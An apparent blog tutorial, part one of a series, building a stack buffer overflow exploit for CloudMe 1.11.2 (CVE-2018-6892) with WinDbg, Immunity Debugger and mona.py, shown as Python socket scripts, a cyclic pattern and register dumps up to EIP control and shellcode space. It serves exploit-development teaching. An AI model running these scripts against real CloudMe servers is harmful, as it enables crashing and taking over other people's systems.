Windows Exploit Development Part I
Posted By: T3jv1l 1/1/2019 .
Hello everyone. Today i will show you how to make a Buffer Overflow using WinDGB and Immunity Debugger! I will focus more on WinDGB.
WinDbg is a multipurpose debugger for the Microsoft Windows computer operating system, distributed by Microsoft. Debugging is the process of finding and resolving errors in a system in computing it also includes exploring the internal operation of software as a help to development. It can be used to debug user mode applications, device drivers, and the operating system it self in kernel mode.
Like the better-known Visual Studio Debugger it has a graphical user interface (GUI), but is more powerful and has little else in common. WinDbg can be used for debugging kernel-mode memory dumps, created after what is commonly called the Blue Screen of Death which occurs when a bug check is issued.It can also be used to debug user-mode crash dumps. This is known as post-mortem debugging.
For start let's install the WinDGB ,and make all configuration!
Download Windows SDK for Windows 7 from WinDGB_Dowloader

Now you have WinDGB installend,now open you CMD with Administrator privilege ,go where it is located WinDGB and register it as a post-mortem debugger using windgb.exe -IA.

PRESS ENTER ,and you need to see something like this!

Now we need to "Configuring Automatic Debugging for Application Crashes". When an application stops responding (for example, after an access violation), the system automatically invokes a debugger that is specified in the registry for postmortem debugging, The process ID and event handle are passed to the debugger if the command line is properly configured. The following procedure describes how to specify a debugger in the registry
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebugOpen Run , write regedit,and try to found AeDebug , you have path above! Keep in mind Auto need to be 0!

In order to avoid Windbg complaining about Symbol files not found, create a folder on your harddrive let’s say C:\WINDGB. Then, in Windbg,use CTRL + S and put the strings :
SRV* C:\WINDGB*http://msdl.microsoft.com/download/symbolsNow that we're done, we start exploiting CloudeMe is a server , this was my first vulnerability founded.
https://www.cloudme.com/downloads/CloudMe_1112.exe "CVE-2018-6892"

I will not explain in the past what each registry does, plus you can take a look at the blog at Corelan Coder , they are legend . This buffer is just another abordation!
Now let's open the Application and make a skeleton in python !

import socket
target="127.0.0.1"
junk="A"*4000
payload=junk
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"Run your python script to see what happened !
Click on debug to analyze!
What do we have here? we can see that the instruction pointer contains 41414141 which is A in hexadecimal! That means we should see the rest of A in the memory of the ESP register.In WinDGB, the command is d (the commands show the memory contents of the given interval).
This exception may be expected and handled.
eax=00000001 ebx=41414141 ecx=758498da edx=0002761c esi=41414141 edi=41414141
eip=41414141 esp=0022d470 ebp=41414141 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010202
41414141 ?? ???
0:000> d esp
0022d470 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d480 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d490 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d4a0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d4b0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d4c0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d4d0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d4e0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0:000> d
0022d4f0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d500 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d510 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d520 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d530 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d540 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d550 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d560 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0:000> d
0022d570 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d580 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d590 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d5a0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d5b0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d5c0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d5d0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
0022d5e0 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAA
Since we (the user) have complete control over the argument we pass to the program, thanks to this stack-based buffer overflow, we also have complete control over EIP and as a result, the execution flow of the program itself. That means we can redirect the program from its intended course to execute code of our choosing (shellcode)! But before doing so do not hurry, we still have to go through several stages .
Let's try to found offset ! We need to create pattern with mona.py. Open Immunity Debugger ,attach the PID !

Run python script! The program will be crashed like in next image!

This tool is similar with WinDGB . Now let's use mona.py to create pattern.

Edit the Python script and run !
import socket
target="127.0.0.1"
junk="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2F"
payload=junk
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
As we can see in the picture, this is our offset. We see that the EIP=316A4230 registry is overwritten with the offset or we can look into the ESP register for the first 4 bits (Bj2B). Now use the mona to see the exact number of the offset.

WOOT ,we have 2 offset ,but is different ?? Don't be scarred all offset is correct. Our program supports 1056 bits, so the limit would be that. But why gave us 1052 ? Let's see what happen when we use 1052 ,edit again python script.
import socket
target="127.0.0.1"
junk="A"*1052
jmp="B"*4
payload=junk+jmp
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"That happend ,we use 1052(A)+4(B)=1056 Register is exactly overwrite,not more ,not less.
Next step is to alocate space for shellcode. Let's calculate : We use 4000 A ,offset is 1052 A + 4 B.It's just a simple math. 4000-1052-4=2944 Space for shellcode ! Edit script again.
import socket
target="127.0.0.1"
junk="A"*1052
jmp="B"*4
shellcode="C"*2944
payload=junk+jmp+shellcode
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !
In this table is the structure of our Buffer :
| BUFFER | EBP,ESI,EDI,EBX | EIP | ESP Pointer |
| A * 4000 | AAAA | BBBB | CCCCCCCCCCCCCCC..... |
| 4141414141414141 | 41414141 | 42424242 | 434343434343434343..... |
| 4000 bytes | 4 bytes | 4 bytes | 2944 bytes |
If you see ESP contain all "C" Space for shellcode ,we need just to found jmp esp address for jump at shellcode. Now open WinDGB , attach the process CloudMe and try to look in module.
